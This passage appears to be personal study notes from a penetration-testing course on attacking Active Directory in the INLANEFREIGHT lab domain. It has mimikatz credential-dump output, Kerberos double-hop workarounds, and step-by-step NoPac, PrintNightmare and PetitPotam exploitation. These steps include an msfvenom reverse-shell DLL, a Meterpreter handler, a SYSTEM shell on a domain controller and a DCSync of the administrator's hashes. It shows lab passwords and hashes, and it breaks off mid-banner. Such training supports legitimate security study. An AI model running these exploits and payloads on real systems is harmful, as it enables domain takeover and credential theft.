Logon Time        : 6/28/2022 3:46:05 PM
SID               : S-1-5-21-1666128402-2659679066-1433032234-1107
        msv :
         [00000003] Primary
         * Username : srvadmin
         * Domain   : INLANEFREIGHT
         * NTLM     : cf3a5525ee9414229e66279623ed5c58
         * SHA1     : 3c7374127c9a60f9e5b28d3a343eb7ac972367b2
         * DPAPI    : 64fa83034ef8a3a9b52c1861ac390bce
        tspkg :
        wdigest :
         * Username : srvadmin
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : srvadmin
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 70647 (00000000:000113f7)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 6/28/2022 3:33:33 PM
SID               : S-1-5-90-0-1
        msv :
         [00000003] Primary
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * NTLM     : ef6a3c65945643fbd1c3cf7639278b33
         * SHA1     : a2cfa43b1d8224fc44cc629d4dc167372f81543f
        tspkg :
        wdigest :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : fb ec 60 8b 93 99 ee 24 a1 dd bf fa a8 da fd 61 cc 14 5c 30 ea 6a e9 f4 bb bc ca 1f be a7 9e ce 8b 79 d8 cb 4d 65 d3 42 e7 a1 98 ad 8e 43 3e b5 77 80 40 c4 ce 61 27 90 37 dc d8 62 e1 77 7a 48 2d b2 d8 9f 4b b8 7a be e8 a4 20 3b 1e 32 67 a6 21 4a b8 e3 ac 01 00 d2 c3 68 37 fd ad e3 09 d7 f1 15 0d 52 ce fb 6d 15 8d b3 c8 c1 a3 c1 82 54 11 f9 5f 21 94 bb cb f7 cc 29 ba 3c c9 5d 5d 41 50 89 ea 79 38 f3 f2 3f 64 49 8a b0 83 b4 33 1b 59 67 9e b2 d1 d3 76 99 3c ae 5c 7c b7 1f 0d d5 fb cc f9 e2 67 33 06 fe 08 b5 16 c6 a5 c0 26 e0 30 af 37 28 5e 3b 0e 72 b8 88 7f 92 09 2e c4 2a 10 e5 0d f4 85 e7 53 5f 9c 43 13 90 61 62 97 72 bf bf 81 36 c0 6f 0f 4e 48 38 b8 c4 ca f8 ac e0 73 1c 2d 18 ee ed 8f 55 4d 73 33 a4 fa 32 94 a9
        ssp :

Authentication Id : 0 ; 996 (00000000:000003e4)
User Name         : DEV01$
Domain            : INLANEFREIGHT
Logon Server      : (null)
Logon Time        : 6/28/2022 3:33:32 PM
SID               : S-1-5-20
        msv :
         [00000003] Primary
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * NTLM     : ef6a3c65945643fbd1c3cf7639278b33
         * SHA1     : a2cfa43b1d8224fc44cc629d4dc167372f81543f
        tspkg :
        wdigest :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 6/28/2022 3:33:33 PM
SID               : S-1-5-19
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        ssp :
        credman :

mimikatz(commandline) # exit
Bye!
```

There are indeed processes running in the context of the backupadmn user, such as ```wsmprovhost.exe```, which is the process that spawns when a Windows Remote PowerShell session is spawned.

```powershell
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm
wsmprovhost.exe               1844 Services                   0     85,212 K Unknown         INLANEFREIGHT\backupadm
                             0:00:03 N/A
tasklist.exe                  6532 Services                   0      7,988 K Unknown         INLANEFREIGHT\backupadm
                             0:00:00 N/A
conhost.exe                   7048 Services                   0     12,656 K Unknown         INLANEFREIGHT\backupadm
                             0:00:00 N/A
```

In the simplest terms, in this situation, when you try to issue a multi-server command, your credentials will not be sent from the first machine to the second.

Say you have three hosts: Attack host, DEV01, DC01. Your attack host is a parrot box within the corporate network but not joined to the domain. You obtain a set of credentials for a domain user and find that they are part of the Remote Management Users group on DEV01. You want to use PowerView to enumerate the domain, which requires communication with the DC.

When you connect to DEV01 using a tool such as evil-winrm, you connect with network authentication, so your credentials are not stored in memory and, therefore, will not be present on the system to authenticate to other resources on behalf of your user. When you load a tool such as PowerView and attempt to query AD, Kerberos has no way of telling the DC thta your user can access resources in the domain. This happens because the user's Kerberos TGT ticket is not sent to the remote session; therefore, the user has no way to prove their identity, and commands will no longer be run in this user's context. In other words, when authenticating to the target host, the user's TGT ticket is sent to the remote service, which allows command execution, but the user's TGT ticket is not sent. When the user attempts to access subsequent resources in the domain, their TGT will not be present in the request, so the remote service will have no way to prove that the authentication is valid, and you will be denied access to the remote service.

If unconstrained delegation is enabled on a server, it is likely you won't face the "Double Hop" problem. In this scenario, when a user sends their TGT ticket to access the target server, their TGT will be sent along with the request. The target server now has the user's TGT ticket in memory and can use it to request a TGS ticket on their behalf on the next host they are attempting to access. In other words, the account's TGT ticket is cached, which has the ability to sign TGS tickets and grant remote access. Generally speaking, if you land on a box with unconstrained delegation, you already won and aren't worrying about this anyways.

### Workarounds

#### #1 PSCredential Object

You can also connect to the remote host via host A and set up a PSCredential object to pass your credentials again.

After connecting to a remote host with domain creds, you import PowerView and then try to run a command. As seen below, you get an error because you cannot pass your authentication on to the DC to query for the SPN accounts.

```bash
*Evil-WinRM* PS C:\Users\backupadm\Documents> import-module .\PowerView.ps1

|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK
|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK
*Evil-WinRM* PS C:\Users\backupadm\Documents> get-domainuser -spn
Exception calling "FindAll" with "0" argument(s): "An operations error occurred.
"
At C:\Users\backupadm\Documents\PowerView.ps1:5253 char:20
+             else { $Results = $UserSearcher.FindAll() }
+                    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : DirectoryServicesCOMException
```

If you check with ```klist```, you see that you only have a cached Kerberos ticket for your current server.

```bash
*Evil-WinRM* PS C:\Users\backupadm\Documents> klist

Current LogonId is 0:0x57f8a

Cached Tickets: (1)

#0> Client: backupadm @ INLANEFREIGHT.LOCAL
    Server: academy-aen-ms0$ @
    KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
    Ticket Flags 0xa10000 -> renewable pre_authent name_canonicalize
    Start Time: 6/28/2022 7:31:53 (local)
    End Time:   6/28/2022 7:46:53 (local)
    Renew Time: 7/5/2022 7:31:18 (local)
    Session Key Type: AES-256-CTS-HMAC-SHA1-96
    Cache Flags: 0x4 -> S4U
    Kdc Called: DC01.INLANEFREIGHT.LOCAL
```

So now, set up a PSCredential object and try again. First, you set up your authentication.

```bash
*Evil-WinRM* PS C:\Users\backupadm\Documents> $SecPassword = ConvertTo-SecureString '!qazXSW@' -AsPlainText -Force

|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK
|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK
*Evil-WinRM* PS C:\Users\backupadm\Documents>  $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\backupadm', $SecPassword)
```

Now you can try to query the SPN accounts using PowerView and are successful because you passed your creds along with the command.

```bash
*Evil-WinRM* PS C:\Users\backupadm\Documents> get-domainuser -spn -credential $Cred | select samaccountname

|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK
|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK

samaccountname
--------------
azureconnect
backupjob
krbtgt
mssqlsvc
sqltest
sqlqa
sqldev
mssqladm
svc_sql
sqlprod
sapsso
sapvc
vmwarescvc
```

If you try again without specifying the ```-credential``` flag, you once again get an error message.

```bash
get-domainuser -spn | select 

*Evil-WinRM* PS C:\Users\backupadm\Documents> get-domainuser -spn | select samaccountname 

|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK
|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK
Exception calling "FindAll" with "0" argument(s): "An operations error occurred.
"
At C:\Users\backupadm\Documents\PowerView.ps1:5253 char:20
+             else { $Results = $UserSearcher.FindAll() }
+                    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : DirectoryServicesCOMException
```

If you RDP to the same host, open a CMD prompt, and type ```klist```, you'll see that you have the necessary tickets cached to interact directly with the DC, and you don't need to worry about the double hop problem. This is because your password is stored in memory, so it can be sent along with every request you make.

```
C:\htb> klist

Current LogonId is 0:0x1e5b8b

Cached Tickets: (4)

#0>     Client: backupadm @ INLANEFREIGHT.LOCAL
        Server: krbtgt/INLANEFREIGHT.LOCAL @ INLANEFREIGHT.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent name_canonicalize
        Start Time: 6/28/2022 9:13:38 (local)
        End Time:   6/28/2022 19:13:38 (local)
        Renew Time: 7/5/2022 9:13:38 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x2 -> DELEGATION
        Kdc Called: DC01.INLANEFREIGHT.LOCAL

#1>     Client: backupadm @ INLANEFREIGHT.LOCAL
        Server: krbtgt/INLANEFREIGHT.LOCAL @ INLANEFREIGHT.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 6/28/2022 9:13:38 (local)
        End Time:   6/28/2022 19:13:38 (local)
        Renew Time: 7/5/2022 9:13:38 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called: DC01.INLANEFREIGHT.LOCAL

#2>     Client: backupadm @ INLANEFREIGHT.LOCAL
        Server: ProtectedStorage/DC01.INLANEFREIGHT.LOCAL @ INLANEFREIGHT.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 6/28/2022 9:13:38 (local)
        End Time:   6/28/2022 19:13:38 (local)
        Renew Time: 7/5/2022 9:13:38 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called: DC01.INLANEFREIGHT.LOCAL

#3>     Client: backupadm @ INLANEFREIGHT.LOCAL
        Server: cifs/DC01.INLANEFREIGHT.LOCAL @ INLANEFREIGHT.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 6/28/2022 9:13:38 (local)
        End Time:   6/28/2022 19:13:38 (local)
        Renew Time: 7/5/2022 9:13:38 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called: DC01.INLANEFREIGHT.LOCAL
```

#### #2 Register PSSession Configuration

You've seen what you can do to overcome this problem when using a tool such as evil-winrm to connect to a host via WinRM. What if you're on a domain-joined host and can connect remotely to another using WinRM? Or you are working from a Windows attack host and connect to your target via WinRM using the ```Enter-PSSession```-cmdlet?

Starty by first establishing a WinRM session on the remote host.

```powershell
PS C:\htb> Enter-PSSession -ComputerName ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL -Credential inlanefreight\backupadm
```

If you check for cached tickets using ```klist```, you'll see that the same problem exists. Due to the double hop problem, you can only interact with resources in your current session but cannot access the DC directly using PowerView. You can see that your current TGS is good for accessing the HTTP service on the target since you connected over WinRM, which uses SOAP requests in XML format to communicate over HTTP, so it makes sense.

```powershell
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist

Current LogonId is 0:0x11e387

Cached Tickets: (1)

#0>     Client: backupadm @ INLANEFREIGHT.LOCAL
       Server: HTTP/ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL @ INLANEFREIGHT.LOCAL
       KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
       Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
       Start Time: 6/28/2022 9:09:19 (local)
       End Time:   6/28/2022 19:09:19 (local)
       Renew Time: 0
       Session Key Type: AES-256-CTS-HMAC-SHA1-96
       Cache Flags: 0x8 -> ASC
       Kdc Called:
```

You also cannot interact directly with the DC using PowerView.

```powershell
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> Import-Module .\PowerView.ps1
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> get-domainuser -spn | select samaccountname

Exception calling "FindAll" with "0" argument(s): "An operations error occurred.
"
At C:\Users\backupadm\Documents\PowerView.ps1:5253 char:20
+             else { $Results = $UserSearcher.FindAll() }
+                    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
   + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
   + FullyQualifiedErrorId : DirectoryServicesCOMException
```

One trick you can use here is registering a new session configuration using the ```Register-PSSessionConfiguration```-cmdlet.

```powershell
PS C:\htb> Register-PSSessionConfiguration -Name backupadmsess -RunAsCredential inlanefreight\backupadm

 WARNING: When RunAs is enabled in a Windows PowerShell session configuration, the Windows security model cannot enforce
 a security boundary between different user sessions that are created by using this endpoint. Verify that the Windows
PowerShell runspace configuration is restricted to only the necessary set of cmdlets and capabilities.
WARNING: Register-PSSessionConfiguration may need to restart the WinRM service if a configuration using this name has
recently been unregistered, certain system data structures may still be cached. In that case, a restart of WinRM may be
 required.
All WinRM sessions connected to Windows PowerShell session configurations, such as Microsoft.PowerShell and session
configurations that are created with the Register-PSSessionConfiguration cmdlet, are disconnected.

   WSManConfig: Microsoft.WSMan.Management\WSMan::localhost\Plugin

Type            Keys                                Name
----            ----                                ----
Container       {Name=backupadmsess}                backupadmsess
```

Once this is done, you need to restart the WinRM service by typing ```Restart-Servie WinRM``` in your current PSSession. This will kick you out, so you'll start a new PSSession using the named registered session you set up previously.

After you start the session, you can see that the double hop problem has been eliminated, and if you type ```klist```, you'll have the cached tickets necessary to reach the DC. This works because your local machine will now impersonate the remote machine in the context of the backupadm user and all requests from your local machine will be sent directly to the DC.

```powershell
PS C:\htb> Enter-PSSession -ComputerName DEV01 -Credential INLANEFREIGHT\backupadm -ConfigurationName  backupadmsess
[DEV01]: PS C:\Users\backupadm\Documents> klist

Current LogonId is 0:0x2239ba

Cached Tickets: (1)

#0>     Client: backupadm @ INLANEFREIGHT.LOCAL
       Server: krbtgt/INLANEFREIGHT.LOCAL @ INLANEFREIGHT.LOCAL
       KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
       Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
       Start Time: 6/28/2022 13:24:37 (local)
       End Time:   6/28/2022 23:24:37 (local)
       Renew Time: 7/5/2022 13:24:37 (local)
       Session Key Type: AES-256-CTS-HMAC-SHA1-96
       Cache Flags: 0x1 -> PRIMARY
       Kdc Called: DC01
```

You can now run tools such as PowerView without having to create a new PSCredential object.

```powershell
[DEV01]: PS C:\Users\Public> get-domainuser -spn | select samaccountname

samaccountname
--------------
azureconnect
backupjob
krbtgt
mssqlsvc
sqltest
sqlqa
sqldev
mssqladm
svc_sql
sqlprod
sapsso
sapvc
vmwarescvc
```

## Bleeding Edge Vulnerabilities

### NoPac (_SamAccountName Spoofing_)

The [Sam_The_Admin vulnerability](https://techcommunity.microsoft.com/t5/security-compliance-and-identity/sam-name-impersonation/ba-p/3042699), also called noPac or referred to as SamAccountName Spoofing, encompasses two CVEs (_2021-42278 and 2021-42287_) and allows for intra-domain privesc from any standard domain user to Domain Admin level access in one single command.

This exploit path takes advantage of being able to change the SamAccountName of a computer account to that of a Domain Controller. By default, authenticated users can add up to ten computers to a domain. When doing so, you change the name of the new host to match a DC's SamAccountName. Once done, you must request Kerberos tickets causing the service to issue you tickets under the DC's name instead of the new name. When a TGS is requested, it will issue the ticket with the closest matching name. Once done, you will have access as that service and can even be provided with a SYSTEM shell on a DC. The flow of the attack is outlined [here](https://www.secureworks.com/blog/nopac-a-tale-of-two-vulnerabilities-that-could-end-in-ransomware).

You can use this [tool](https://github.com/Ridter/noPac) to perform the attack.

NoPac uses many tools in Impacket to communicate with, upload a payload, and issue commands from the attack host to the target DC. Before attempting to use the exploit, you should ensure Impacket is installed and the noPac exploit repo is cloned to your attack host if needed.

Once Impacket is installed and you ensure the repo is cloned to your attack box, you can use the scripts in the NoPac dir to check if the system is vulnerable using a scanner then use the exploit to gain a shell as NT AUTHORITY/SYSTEM. You can use the scanner with a standard domain user account to attempt to obtain a TGT from the target DC. If successful, this indicates the system is, in fact, vulnerable. You'll also notice the ms-DS-MachineAccountQuota number is set to 10. In some environments, an astute sysadmin may set the ms-DS-MachineAccountQuota value to 0. If this is the case, the attack will fail because your user will not have the rights to add a new machine account. Setting this to 0 can prevent quite a few AD attacks.

#### Scanning for NoPac

```bash
d41y@htb[/htb]$ sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap

███    ██  ██████  ██████   █████   ██████ 
████   ██ ██    ██ ██   ██ ██   ██ ██      
██ ██  ██ ██    ██ ██████  ███████ ██      
██  ██ ██ ██    ██ ██      ██   ██ ██      
██   ████  ██████  ██      ██   ██  ██████ 
                                           
[*] Current ms-DS-MachineAccountQuota = 10
[*] Got TGT with PAC from 172.16.5.5. Ticket size 1484
[*] Got TGT from ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL. Ticket size 663
```

#### Running NoPac & Getting a Shell

There are many different ways to use NoPac to further your access. One way is to obtain a shell with SYSTEM level privileges. You can do this by running noPac.py with the syntax below to impersonate the built-in administrator account and drop into a semi-interactive shell session on the target DC. This could be "noisy" or may be blocked by AV or EDR.

```bash
d41y@htb[/htb]$ sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap

███    ██  ██████  ██████   █████   ██████ 
████   ██ ██    ██ ██   ██ ██   ██ ██      
██ ██  ██ ██    ██ ██████  ███████ ██      
██  ██ ██ ██    ██ ██      ██   ██ ██      
██   ████  ██████  ██      ██   ██  ██████ 
                                               
[*] Current ms-DS-MachineAccountQuota = 10
[*] Selected Target ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
[*] will try to impersonat administrator
[*] Adding Computer Account "WIN-LWJFQMAXRVN$"
[*] MachineAccount "WIN-LWJFQMAXRVN$" password = &A#x8X^5iLva
[*] Successfully added machine account WIN-LWJFQMAXRVN$ with password &A#x8X^5iLva.
[*] WIN-LWJFQMAXRVN$ object = CN=WIN-LWJFQMAXRVN,CN=Computers,DC=INLANEFREIGHT,DC=LOCAL
[*] WIN-LWJFQMAXRVN$ sAMAccountName == ACADEMY-EA-DC01
[*] Saving ticket in ACADEMY-EA-DC01.ccache
[*] Resting the machine account to WIN-LWJFQMAXRVN$
[*] Restored WIN-LWJFQMAXRVN$ sAMAccountName to original value
[*] Using TGT from cache
[*] Impersonating administrator
[*] 	Requesting S4U2self
[*] Saving ticket in administrator.ccache
[*] Remove ccache of ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
[*] Rename ccache with target ...
[*] Attempting to del a computer with the name: WIN-LWJFQMAXRVN$
[-] Delete computer WIN-LWJFQMAXRVN$ Failed! Maybe the current user does not have permission.
[*] Pls make sure your choice hostname and the -dc-ip are same machine !!
[*] Exploiting..
[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>
```

You will notice that a semi-interactive shell session is established with the target using smbexec.py. Keep in mind with smbexec shells you will need to use exact paths instead of navigating the directory structure using ```cd```.

#### Confirming the Location of Saved Tickets

It is important to note that NoPac.py does save the TGT in the directory on the attack host where the exploit was run. You can use ```ls``` to confirm.

```bash
d41y@htb[/htb]$ ls

administrator_DC01.INLANEFREIGHT.local.ccache  noPac.py   requirements.txt  utils
README.md  scanner.py
```

#### Using noPac to DCSync the Built-in Administrator Account

You could then use the ccache file to perform a PtT and perform further attacks such as DCSync. You can also use the tool with the ```-dump``` flag to perform a DCSync using secretsdumpy.py. This method would still create a ccache file on disk, which you would want to be aware of and clean up.

```bash
d41y@htb[/htb]$ sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator

███    ██  ██████  ██████   █████   ██████ 
████   ██ ██    ██ ██   ██ ██   ██ ██      
██ ██  ██ ██    ██ ██████  ███████ ██      
██  ██ ██ ██    ██ ██      ██   ██ ██      
██   ████  ██████  ██      ██   ██  ██████ 
                                                                    
[*] Current ms-DS-MachineAccountQuota = 10
[*] Selected Target ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
[*] will try to impersonat administrator
[*] Alreay have user administrator ticket for target ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
[*] Pls make sure your choice hostname and the -dc-ip are same machine !!
[*] Exploiting..
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
inlanefreight.local\administrator:500:aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf:::
[*] Kerberos keys grabbed
inlanefreight.local\administrator:aes256-cts-hmac-sha1-96:de0aa78a8b9d622d3495315709ac3cb826d97a318ff4fe597da72905015e27b6
inlanefreight.local\administrator:aes128-cts-hmac-sha1-96:95c30f88301f9fe14ef5a8103b32eb25
inlanefreight.local\administrator:des-cbc-md5:70add6e02f70321f
[*] Cleaning up...
```

### Windows Defender & SMBEXEC.py Considerations

If Windows Defender is enabled on a target, your shell session may be established, but issuing any commands will likely fail. The first thing smbexec.py does is create a service called "BTOBTO". Another service called "BTOBO" is created, and any command you type is sent to the target over SMB inside a .bat file called execute.bat. With each new command you type, a new batch script is created an echoed to a temporary file that executes said script and deletes it from the system.



If OPSEC or being "quiet" is a consideration during an assessment, you would most likely want to avoid a tool like smbexec.py.

### PrintNightmare

... is the nickname given to two vulns (_CVE-2021-34527 and CVE-2021-1675_) found in the Print Spooler service that runs on all Windows OS.

To conduct this exploit, you must first retrieve it ([here](https://twitter.com/cube0x0?lang=en)).

> [!INFO]
> If you use the listed exploit, you need to use the creator's [custom Impacket](https://github.com/cube0x0/impacket).

#### Enumerating for MS-RPRN

You can use rpcdump.py to see if Print System Asynchronous Protocol and Print System Remote Protocol are exposed on the target.

```bash
d41y@htb[/htb]$ rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'

Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol 
```

After confirming this, you can proceed with attempting to use the exploit.

#### Generating a DLL Payload

You can begin by crafting a DLL payload using msfvenom.

```bash
d41y@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of dll file: 8704 bytes
```

#### Creating a Share with smbserver.py

You will then host this payload in an SMB share you create on your attack host using smbserver.py.

```bash
d41y@htb[/htb]$ sudo smbserver.py -smb2support CompData /path/to/backupscript.dll

Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

#### Configuring & Starting MSF multi/handler

Once the share is created and hosting your payload, you can use MSF to configure & start a multi handler responsible for catching the reverse shell that gets executed on the target.

```bash
[msf](Jobs:0 Agents:0) >> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LHOST 172.16.5.225
LHOST => 10.3.88.114
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 8080
LPORT => 8080
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run

[*] Started reverse TCP handler on 172.16.5.225:8080 
```

#### Running the Exploit

With the share hosting your payload and your multi handler listening for a connection, you can attempt to run the exploit against the target.

```bash
d41y@htb[/htb]$ sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'

[*] Connecting to ncacn_np:172.16.5.5[\PIPE\spoolss]
[+] Bind OK
[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL
[*] Executing \??\UNC\172.16.5.225\CompData\backupscript.dll
[*] Try 1...
[*] Stage0: 0
[*] Try 2...
[*] Stage0: 0
[*] Try 3...

<SNIP>
```

Notice how at the end of the command, you include the path to the share hosting your payload. If all goes well after running the exploit, the target will access the share and execute the payload. The payload will then call back to your multi handler giving you an elevated SYSTEM shell.

```bash
[*] Sending stage (200262 bytes) to 172.16.5.5
[*] Meterpreter session 1 opened (172.16.5.225:8080 -> 172.16.5.5:58048 ) at 2022-03-29 13:06:20 -0400

(Meterpreter 1)(C:\Windows\system32) > shell
Process 5912 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Once the exploit has been run, you will notice that a Meterpreter session has been started. You can then drop into a SYSTEM shell and see that you have NT AUTHORITY\SYSTEM privileges on the target DC starting from just a standard domain user account.

### PetitPotam (_MS-EFSRPC_)

... is an LSA spoofing vulnerability that was patched in August of 2021. The flaw allows an unauthenticated attacker to coerce a DC to authenticate against another host using NTLM over port 445 via the Local Security Authority Remote Protocol (_LSARPC_) by abusing Microsoft's Encryption File System Remote Protocol (_MS-EFSRPC_). This technique allows an unauthenticated attacker to take over a Windows domain where AD Certificate Services is in use. In the attack, an authentication request from the targeted DC is relayed to the Certificate Authority host's web enrollment page and makes a Certificate Signing Request for a new digitial certificate. This certificate can then be used with a tool such as Rubeus or gettgtpkinit.py from [PKINITtools](https://github.com/dirkjanm/PKINITtools) to request a TGT for the DC, which can then be used to achieve domain compromise via DCSync attack.

#### Starting ntlmrelayx.py

First off, you need to start ntlmrelayx.py in one window on your attack host, specifying the Web Enrollment URL for the CA host and using either the KerberosAuthentication or DC AD CS template. If you didn't know the location of the CA, you could use a tool such as [certi](https://github.com/zer1t0/certi) to attempt to locate it.

```bash
d41y@htb[/htb]$ sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController

Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - 

Copyright 2021 SecureAuth Corporation

[+] Impacket Library Installation Path: /usr/local/lib/python3.9/dist-packages/impacket-0.9.24.dev1+20211013.152215.3fe2d73a-py3.9.egg/impacket
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client SMTP loaded..
[+] Protocol Attack DCSYNC loaded..
[+] Protocol Attack HTTP loaded..
[+] Protocol Attack HTTPS loaded..
[+] Protocol Attack IMAP loaded..
[+] Protocol Attack IMAPS loaded..
[+] Protocol Attack LDAP loaded..
[+] Protocol Attack LDAPS loaded..
[+] Protocol Attack MSSQL loaded..
[+] Protocol Attack RPC loaded..
[+] Protocol Attack SMB loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server
[*] Setting up WCF Server

[*] Servers started, waiting for connections
```

#### Running PetitPotam.py

In another window, you can run the tool PetitPotam.py. You run this tool with the command ```python3 PetitPotam.py <attack host IP> <DC IP>``` to attempt to coerce the DC to authenticate to your host where ntlmrelayx.py is running.

There is an executable version of this tool that can be run from a Windows host. The authentication trigger has also been added to Mimikatz and can be run as follows using the encrypting file system (_EFS_) module: ```misc::efs /server:<DC> /connect:<Attack Host>```. There is also a PowerShell implementation of the tool [Invoke-PetitPotam.ps1](https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/Invoke-Petitpotam.ps1).

```bash
d41y@htb[/htb]$ python3 PetitPotam.py 172.16.5.225 172.16.5.5       
                                                                                 
              ___            _        _      _        ___            _                     
             | _ \   ___    | |_     (_)    | |_     | _ \   ___    | |_    __ _    _ __   
